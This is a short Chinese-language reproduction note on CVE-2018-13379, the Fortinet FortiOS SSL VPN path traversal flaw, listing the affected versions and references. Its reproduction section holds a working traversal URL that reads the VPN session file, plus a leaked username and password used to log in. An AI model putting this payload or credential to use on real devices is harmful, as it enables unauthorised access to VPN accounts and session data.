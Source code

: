 ```yaml
---
title: （CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞
id: zhfly2945
---
```


# （CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞

## 一、漏洞简介

Fortinet FortiOS路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379）
漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet FortiOS 5.6.3版本至5.6.7版本、6.0.0版本至6.0.4版本中的SSL VPN 受此漏洞影响。

## 二、漏洞影响

Fortinet FortiOS 5.6.3版本至5.6.7版本、

Fortinet FortiOS 6.0.0版本至6.0.4版本

中的SSL VPN 受此漏洞影响。

## 三、复现过程

POC：`http://www.0-sec.org:4443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`

![image](../img/0af0998ee7cfc90c78dddfc15f287c7f.png)

利用泄露的账户herschel/vvpn123成功登陆。

![image](../img/0acb41afe80dc17e71fae24332532238.png)

![image](../img/81e5e8b7ea2570e7a56380391472ac1c.png)

### 检测工具

> https://github.com/ianxtianxt/CVE-2018-13379

## 参考链接

> https://blog.csdn.net/limb0/article/details/102890683